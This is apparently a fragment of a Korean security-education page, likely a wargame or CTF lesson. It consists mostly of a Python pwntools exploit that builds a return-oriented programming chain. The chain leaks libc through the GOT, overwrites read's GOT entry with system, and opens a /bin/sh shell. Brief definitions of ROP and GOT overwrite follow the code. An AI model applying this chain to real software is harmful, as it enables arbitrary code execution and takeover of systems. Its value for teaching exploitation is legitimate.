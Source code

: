 ```python
# write(1, read_got, ...)
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(write_plt)

# read(0, read_got, ...)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(read_plt)

# read("/bin/sh") == system("/bin/sh")
payload += p64(pop_rdi)
payload += p64(read_got + 0x8)
payload += p64(ret)
payload += p64(read_plt)

p.sendafter(b'Buf: ', payload)
read = u64(p.recvn(6) + b'\x00'*2)
lb = read - libc.symbols['read']
system = lb + libc.symbols['system']
slog('read', read)
slog('libc_base', lb)
slog('system', system)

p.send(p64(system) + b'/bin/sh\x00')

p.interactive()
```

<br/>

- **Return Oriented Programming(ROP)**: 리턴 가젯을 이용하여 복잡한 실행 흐름을 구현하는 기법. 문제 상황에 맞춰 공격자가 유연하게 익스플로잇을 작성할 수 있다.
- **GOT Overwrite**: 어떤 함수의 GOT 엔트리를 덮고, 해당 함수를 재호출하여 원하는 코드를 실행시키는 공격 기법

